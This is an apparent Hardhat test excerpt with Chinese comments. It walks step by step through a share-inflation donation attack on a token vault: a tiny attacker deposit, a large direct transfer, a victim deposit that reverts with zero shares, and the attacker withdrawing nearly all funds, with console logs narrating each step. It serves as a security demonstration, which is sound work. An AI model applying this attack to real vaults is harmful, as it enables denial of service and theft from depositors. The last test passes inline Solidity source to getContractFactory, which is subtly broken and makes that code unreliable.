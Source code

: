 ```javascript
        await depositToken.connect(attacker).transfer(await vault.getAddress(), largeDonation);

        console.log(`ATTACK STEP 2: Attacker 'donates' ${ethers.formatEther(largeDonation)} DT to the vault`);
        console.log(`  Vault total assets: ${ethers.formatEther(await vault.totalAssets())} DT`);
        console.log(`  Vault total shares: ${await vault.totalSupply()}`); // 份额不变！
        console.log(`--------------------------------------------------`);
        expect(await vault.totalAssets()).to.equal(largeDonation + BigInt(tinyDeposit));
        expect(await vault.totalSupply()).to.equal(tinyDeposit);

        // --- 攻击步骤 3: 不知情的受害者存入大笔资金 ---
        const victimDeposit = ethers.parseEther("100");
        await depositToken.connect(victim).approve(await vault.getAddress(), victimDeposit);
        
        console.log(`VICTIM ACTION: Victim attempts to deposit ${ethers.formatEther(victimDeposit)} DT`);
        
        // 由于计算出的份额为0，交易会被 `require(shares > 0)` 拒绝
        // 这展示了攻击如何导致 DoS (Denial of Service)
        // 在某些实现中，如果shares为0但交易继续，资金就会被盗
        await expect(
            vault.connect(victim).deposit(victimDeposit)
        ).to.be.revertedWith("Amount too small for any shares");

        console.log(`  Victim's deposit REVERTED because they would get 0 shares.`);
        console.log(`  This is because share price is massively inflated.`);
        console.log(`--------------------------------------------------`);

        // --- 攻击步骤 4: 攻击者取出所有资金 ---
        const attackerShares = await vault.balanceOf(attacker.address);
        await vault.connect(attacker).withdraw(attackerShares);

        console.log(`ATTACK STEP 4: Attacker withdraws their ${attackerShares} share(s)`);
        
        const attackerFinalBalance = await depositToken.balanceOf(attacker.address);
        const vaultFinalBalance = await depositToken.balanceOf(await vault.getAddress());

        console.log(`Final Balances:`);
        console.log(`  Attacker: ${ethers.formatEther(attackerFinalBalance)} DT`);
        console.log(`  Vault:    ${ethers.formatEther(vaultFinalBalance)} DT`);
        
        // 攻击者几乎拿回了所有钱（初始资金 - 1 wei + 捐赠的1000）
        // 这里因为整数除法，会有微小的灰尘损失
        expect(attackerFinalBalance).to.be.closeTo(attackerInitialBalance, ethers.parseEther("0.0001"));
        expect(vaultFinalBalance).to.equal(0);
    });

    // 为了让测试运行，我们需要一个可以 mint 的 ERC20 Mock
    it("Should deploy a mock ERC20", async function() {
        const ERC20MockFactory = await ethers.getContractFactory(`
            // SPDX-License-Identifier: MIT
            pragma solidity ^0.8.20;
            import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
            contract ERC20Mock is ERC20 {
                constructor(string memory name, string memory symbol) ERC20(name, symbol) {}
                function mint(address to, uint256 amount) public { _mint(to, amount); }
            }
        `);
        const mock = await ERC20MockFactory.deploy("M", "M");
        await mock.mint(deployer.address, 100);
        expect(await mock.balanceOf(deployer.address)).to.equal(100);
    });
```